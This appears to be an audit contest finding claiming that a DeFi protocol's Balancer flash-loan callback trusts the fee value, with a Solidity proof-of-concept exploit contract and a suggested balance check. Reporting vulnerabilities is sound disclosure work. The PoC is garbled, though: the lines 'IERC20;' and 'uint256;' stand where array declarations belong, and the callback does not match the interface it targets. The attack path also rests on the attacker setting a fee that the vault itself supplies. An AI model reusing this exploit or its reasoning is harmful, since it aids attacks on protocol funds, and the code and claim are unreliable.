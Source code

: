 Stale Porcelain Kestrel

Medium

# Missing fee validation allows Flash Loan exploit

### **Summary**
The missing validation check in `BalancerFlashSource.sol:receiveFlashLoan()` will cause financial losses for the protocol as an attacker will manipulate `_feeAmounts[0]`, allowing them to take flash loans without paying the required fee.

---

### **Root Cause**
In [`BalancerFlashSource.sol:receiveFlashLoan()`](https://github.com/sherlock-audit/2025-01-peapods-finance/blob/d28eb19f4b39d3db7997477460f9f9c76839cb0c/contracts/contracts/flash/BalancerFlashSource.sol#L47C4-L57C6), the function assigns `_feeAmounts[0]` directly to `_fData.fee` **without verifying if the contract actually received the required fee**.  
- **Vulnerable Code:**  
  ```solidity
  _fData.fee = _feeAmounts[0];
  ```
- The contract assumes `_feeAmounts[0]` is correct but does not verify the actual balance changes.

---

### **Internal Pre-conditions**
1. **Attacker controls `_userData`** and can modify input parameters.  
2. **The contract relies on `_feeAmounts[0]` as a trusted value** but does not validate it.  
3. **No validation exists to check the contract’s balance before and after the transaction.**  

---

### **Attack Path**
1. **Attacker calls `flashLoan()`** with a manipulated `_userData`, setting `_feeAmounts[0]` to `0`.  
2. The contract **accepts `_feeAmounts[0]` without verification** and assigns it to `_fData.fee`.  
3. The attacker **receives the flash loan but avoids paying the required fee**.  
4. The attacker **repeats the attack multiple times**, extracting funds and depleting protocol revenue.  

---

### **Impact**
- **Affected Party:** The protocol and liquidity providers.  
- **Loss Type:** Financial loss due to **fee evasion**.  
- **Protocol Revenue Loss:** The flash loan system relies on collecting fees, and fee evasion directly reduces sustainability.  
  - **Potential Insolvency Risk:** If exploited repeatedly, the protocol may become unprofitable and fail to cover operational costs.  
  - **Flash Loan Abuse:** Attackers can borrow flash loans at zero cost, leading to potential market manipulation and arbitrage abuse.  
  - **Reputational Damage:** If publicly exploited, users may lose trust in the protocol’s security and reliability.  
  
---

### **PoC (Proof of Concept)**
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/utils/SafeERC20.sol";

interface IBalancerVault {
    function flashLoan(
        address recipient,
        IERC20[] memory tokens,
        uint256[] memory amounts,
        bytes memory userData
    ) external;
}

interface IFlashLoanRecipient {
    function callback(bytes calldata _userData) external;
}

contract FlashLoanExploit is IFlashLoanRecipient {
    using SafeERC20 for IERC20;

    IBalancerVault public flashLoanSource;
    IERC20 public targetToken;
    address public attacker;

    struct FlashData {
        address recipient;
        address token;
        uint256 amount;
        bytes userData;
        uint256 fee;
    }

    constructor(address _flashLoanSource, address _token) {
        flashLoanSource = IBalancerVault(_flashLoanSource);
        targetToken = IERC20(_token);
        attacker = msg.sender;
    }

    function executeAttack(uint256 _loanAmount) external {
        require(msg.sender == attacker, "Not authorized");

        // Malicious payload to bypass fee validation
        FlashData memory fData = FlashData(address(this), address(targetToken), _loanAmount, "", 0);
        bytes memory maliciousData = abi.encode(fData);

        IERC20;
        tokens[0] = targetToken;
        
        uint256;
        amounts[0] = _loanAmount;

        // Requesting a flash loan with manipulated fee
        flashLoanSource.flashLoan(address(this), tokens, amounts, maliciousData);
    }

    function callback(bytes calldata _userData) external override {
        FlashData memory fData = abi.decode(_userData, (FlashData));

        // Manipulate fee amount to 0
        uint256 fakeFee = 0;

        // Transfer loan amount to attacker
        IERC20(fData.token).safeTransfer(attacker, fData.amount);

        // Repay loan with manipulated fee (zero)
        IERC20(fData.token).safeTransfer(msg.sender, fData.amount + fakeFee);
    }
}
```

1. **Executing the Attack:**  
   - The attacker calls `executeAttack()` with a desired loan amount.  
   - A flash loan request is sent with manipulated data (`fee = 0`).  
2.  **Loan Transfer Without Fee Validation:**  
   - The protocol processes the flash loan and transfers the loan amount.  
   - The value of `_feeAmounts[0]` is accepted without verification, and `fee = 0` is stored.  
3. **Fee Manipulation in `callback()`:**  
   - The flash loan contract executes the `callback()` function on the recipient.  
   - The attacker sets `fee` to zero, deceiving the system.  
4. **Receiving the Loan at No Cost:**  
   - The attacker transfers the loan amount to their own account.  
   - The initial loan amount is repaid to the contract without any fee.  
5.  **Repeating the Attack & Financial Losses:**  
   - The attacker repeats this process multiple times, taking free loans.  
   - The protocol suffers financial losses, reduced liquidity, and potential insolvency.
   
---

### **Mitigation**
**Verify the contract balance before and after the transaction to confirm fee deduction:**  
```solidity
uint256 balanceBefore = IERC20(_fData.token).balanceOf(address(this));

// Transfer flash loan amount
IERC20(_fData.token).safeTransfer(_fData.recipient, _fData.amount);

// Check that the required fee has been received
uint256 balanceAfter = IERC20(_fData.token).balanceOf(address(this));
require(balanceAfter >= balanceBefore + _fData.fee, "Fee mismatch");
```
 **Ensure `_feeAmounts[0]` is validated before being assigned.**  
 **Enforce fee checks at the smart contract level, preventing manipulation.**  
 **Implement a mechanism to track actual received fees instead of trusting external input.**  

---

### **Conclusion**
This vulnerability exposes the protocol to **repeated financial losses and possible insolvency** due to flash loan fee evasion. Immediate remediation is necessary to secure the system and protect protocol revenue.